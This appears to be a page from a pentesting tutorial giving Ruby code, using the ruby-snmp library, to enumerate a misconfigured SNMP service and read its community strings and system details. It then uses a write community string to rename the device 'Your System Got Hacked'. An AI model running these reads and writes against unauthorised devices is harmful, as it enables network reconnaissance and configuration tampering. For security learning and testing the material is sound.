 # SNMP Enumeration

* Install ruby-snmp

  ```text
  gem install snmp
  ```

## Get Request

Miss configure an SNMP service would gives an attacker a huge mount of information. Let's to see you we can interact with the server to retrieve some info.

```ruby
# KING SABRI | @KINGSABRI
require 'snmp'

# Connect to SNMP server
manager = SNMP::Manager.new(:host => '192.168.0.17')

# General info
puts "SNMP Version: " + manager.config[:version]
puts "Community: " + manager.config[:community]
puts "Write Community: " + manager.config[:WriteCommunity]


# Get hostname, contact and location
hostname = manager.get("sysName.0").each_varbind.map {|vb| vb.value.to_s}       # manager.get("sysName.0").varbind_list[0]
contact  = manager.get("sysContact.0").each_varbind.map {|vb| vb.value.to_s}    # manager.get("sysContact.0").varbind_list[0]
location = manager.get("sysLocation.0").each_varbind.map {|vb| vb.value.to_s}   # manager.get("sysLocation.0").varbind_list[0]

# It would take an array of OIDs
response = manager.get(["sysName.0", "sysContact.0", "sysLocation.0"])
response.each_varbind do |vb|
    puts vb.value.to_s
end
```

> Note: the OID names are case sensitive

## Set Request

Sometimes we get luck and we get the private/management string of SNMP. At this moment we might be able to apply changes on the system, router, switches configurations.

```ruby
require 'snmp'
include SNMP

# Connect to SNMP server
manager = SNMP::Manager.new(:host => '192.168.0.17')
# Config our request to OID
varbind = VarBind.new("1.3.6.1.2.1.1.5.0", OctetString.new("Your System Got Hacked"))
# Send your request with varbind our settings
manager.set(varbind)
# Check our changes
manager.get("sysName.0").each_varbind.map {|vb| vb.value.to_s}
manager.close
```

\[1\]: [https://github.com/hallidave/ruby-snmp/](https://github.com/hallidave/ruby-snmp/)

